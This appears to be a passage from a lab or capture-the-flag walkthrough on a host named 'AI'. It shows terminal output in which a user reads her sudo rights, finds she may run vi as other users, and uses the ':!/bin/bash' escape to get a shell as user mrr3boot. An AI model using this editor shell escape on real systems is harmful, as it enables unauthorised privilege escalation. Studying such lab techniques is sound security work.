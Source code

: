 ```
alexa@AI:~$ sudo -l
[sudo] password for alexa: 
Matching Defaults entries for alexa on AI:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alexa may run the following commands on AI:
    (ALL, !root) /usr/bin/vi

alexa@AI:~$ lslogins
       UID USER            PROC PWD-LOCK PWD-DENY  LAST-LOGIN GECOS
         0 root             127                   Nov04/09:42 root
         1 daemon             1                               daemon
         2 bin                0                               bin
         3 sys                0                               sys
         4 sync               0                               sync
         5 games              0                               games
         6 man                0                               man
         7 lp                 0                               lp
         8 mail               0                               mail
         9 news               0                               news
        10 uucp               0                               uucp
        13 proxy              0                               proxy
        33 www-data          10                               www-data
        34 backup             0                               backup
        38 list               0                               Mailing List Manager
        39 irc                0                               ircd
        41 gnats              0                               Gnats Bug-Reporting System (admin)
       100 systemd-network    0                               systemd Network Management,,,
       101 systemd-resolve    1                               systemd Resolver,,,
       102 syslog             1                               
       103 messagebus         1                               
       104 _apt               0                               
       105 lxd                0                               
       106 uuidd              0                               
       107 dnsmasq            0                               dnsmasq,,,
       108 landscape          0                               
       109 pollinate          0                               
       110 sshd               0                               
       111 mysql              1                               MySQL Server,,,
       112 rtkit              0                               RealtimeKit,,,
       113 pulse              0                               PulseAudio daemon,,,
       114 avahi              2                               Avahi mDNS daemon,,,
       115 geoclue            0                               
      1000 alexa              5                         15:32 alexa
     65534 nobody             0                               nobody
4000000000 mrr3boot           0    
```

```
alexa@AI:~$ sudo -u mrr3boot vi
:!/bin/bash
mrr3boot@AI:~$ id
uid=4000000000(mrr3boot) gid=1001(mrr3boot) groups=1001(mrr3boot)
```
